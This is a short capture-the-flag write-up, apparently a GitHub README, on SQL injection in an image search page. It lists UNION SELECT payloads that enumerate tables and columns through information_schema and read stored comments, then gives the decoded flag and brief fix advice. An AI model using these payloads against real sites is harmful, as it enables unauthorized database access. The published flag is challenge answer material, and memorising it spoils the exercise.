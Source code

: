 
# SQL Injection in search for image

how i found the flag:




## Usage/Examples

```sql
SQL_injection image search :
1_ get table name :
-- 5 UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = DATABASE() --
2_ get all columns:
-- 5 union all select 5,(column_name) from Information_schema.columns where table_name=0x6C6973745F696D61676573
3_ read comments
-- 5 union all select 5,(comment) from list_images
4_ decode with md5 then sha256 the result to get the flag
-- FLAG: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## to resolve the patch:

1_ use an ORM (object relational mapping tool) as it check the query befor it send it to server
2_ filter user input